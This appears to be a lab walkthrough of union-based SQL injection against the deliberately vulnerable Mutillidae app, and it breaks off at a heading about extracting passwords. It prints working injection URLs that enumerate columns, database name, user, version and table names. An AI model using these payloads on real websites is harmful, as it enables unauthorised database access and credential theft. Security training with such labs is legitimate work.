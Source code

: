 ![244885838-10c8f015-3770-46b5-b320-bf37cc7bbdae](https://github.com/user-attachments/assets/bc1a5e99-6565-4e50-9e53-87e3e8d29c36)

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/user-attachments/assets/5b569bf1-455d-4175-93a2-685959143e7a)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/user-attachments/assets/ced2d9fc-ac8b-4cc5-b457-cf84028430f7)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/user-attachments/assets/7d524ddc-bbda-437a-a8c2-109b095a1355)

As it is having 5 columns the query worked fine and it provides the correct result

![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/user-attachments/assets/54dec713-c6be-4915-9ca3-9815bdb3b41e)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/user-attachments/assets/63a4ed22-bdbd-4e30-8ecf-b3cbcf9f70cf)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/user-attachments/assets/b6404608-a273-4801-b458-d2fe1e7ec990)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/user-attachments/assets/ed789352-33ef-4eff-a090-2a001dd022ee)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/user-attachments/assets/ad50ffdf-2020-44c0-96a0-124ca00484c7)


The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords
